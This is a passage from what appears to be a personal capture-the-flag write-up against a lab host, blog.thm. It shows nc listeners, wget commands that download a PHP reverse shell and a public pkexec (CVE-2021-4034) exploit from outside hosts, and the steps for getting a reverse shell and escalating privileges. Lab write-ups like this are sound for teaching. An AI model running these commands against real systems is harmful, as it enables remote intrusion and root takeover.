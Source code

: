 On the attacker machine run this to connect to the listener.
```shell
rlwrap nc 10.10.43.165 4949
```
![Pasted image 20240926115820.png|400](/img/user/attachments/Pasted%20image%2020240926115820.png)
### Reverse shell php (optinal)
We have a shell, now, to get a better revershell I upload a php revershell to the system `rev_shell_1.php`.
We have the file on our system and run a python server
```python
python -m http.server 4545
```

On the victim shell
```shell
wget http://10.6.2.59:4545/rev_shell_1.php
```

Start the revershell listener on the attacker machine
```shell
rlwrap nc -lnvp 5151
```
Now go to the url `http://blog.thm/rev_shell_1.php/`
And we have a revershell
![Pasted image 20240926120521.png|400](/img/user/attachments/Pasted%20image%2020240926120521.png)

---
# Privilege Escalation
## SUID

<div class="transclusion internal-embed is-loaded"><a class="markdown-embed-link" href="/cve-2021-4034/" aria-label="Open link"><svg xmlns="http://www.w3.org/2000/svg" width="24" height="24" viewBox="0 0 24 24" fill="none" stroke="currentColor" stroke-width="2" stroke-linecap="round" stroke-linejoin="round" class="svg-icon lucide-link"><path d="M10 13a5 5 0 0 0 7.54.54l3-3a5 5 0 0 0-7.07-7.07l-1.72 1.71"></path><path d="M14 11a5 5 0 0 0-7.54-.54l-3 3a5 5 0 0 0 7.07 7.07l1.71-1.71"></path></svg></a><div class="markdown-embed">




> [!cite] NIST-CVE-2021-4034
> A local privilege escalation vulnerability was found on polkit's **pkexec** utility. The pkexec application is a **setuid** tool designed to allow unprivileged users to **run commands as privileged users** according predefined policies. The current version of pkexec doesn't handle the calling parameters count correctly and ends trying to execute environment variables as commands. An attacker can leverage this by crafting environment variables in such a way it'll induce pkexec to execute arbitrary code. When successfully executed the attack can cause a local privilege escalation given unprivileged users administrative rights on the target machine.

We have `pkexec`with SUID the bit enabled.
The exploit https://github.com/Almorabea/pkexec-exploit
```shell
wget https://raw.githubusercontent.com/Almorabea/pkexec-exploit/refs/heads/main/CVE-2021-4034.py
```
Or the code [[CVE-2021-4034-exploit\|CVE-2021-4034-exploit]]
